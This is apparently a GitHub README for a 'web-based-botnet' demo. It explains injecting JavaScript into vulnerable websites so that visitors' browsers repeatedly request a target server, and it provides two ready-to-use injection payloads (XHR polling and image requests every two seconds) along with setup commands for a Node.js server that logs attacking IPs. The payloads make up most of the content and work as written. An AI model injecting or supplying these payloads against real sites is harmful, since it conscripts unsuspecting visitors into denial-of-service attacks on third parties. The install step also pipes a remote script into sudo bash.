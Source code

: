 # web-based-botnet

Attackers can inject Javascript code to vulnerable websites which could in turn launch DDoS attacks towards targets. 
This is a vulnerable server created to be DDoS. <br />
It gives live updates about the ip addresses that is attacking it. <br />

These injected payloads will continuously request resources from the vulnerable server.

## Dependencies

#### Install NodeJS

```bash
curl -sL https://deb.nodesource.com/setup_6.x | sudo -E bash -
sudo apt-get install -y nodejs
sudo apt-get -y install build-essential
```

#### Install packages

```bash
npm install # expressjs, socket.io
```

## Payload for vulnerable websites
#### Via XHR
```html
<script>
function poll() {
	var xhr = new XMLHttpRequest();
	xhr.open("GET", "http://192.168.1.22:3000", true);
	xhr.onload = function (e) {
	  if (xhr.readyState === 4) {
	    if (xhr.status === 200) {
	      console.log(xhr.responseText);
	    } else {
	      console.error(xhr.statusText);
	    }
	  }
	};
	xhr.onerror = function (e) {
	  console.error(xhr.statusText);
	};
	xhr.send(null);
}
function start() {
	setInterval(poll, 2000)
}
start()
</script>
```

#### Via image
```html
<script> 
setInterval(function(){ 
  var img = new Image(); 
  img.src = 'http://192.168.1.22:3000/cat.jpg?' + (new Date()).getTime()
}, 2000); 
</script>
```

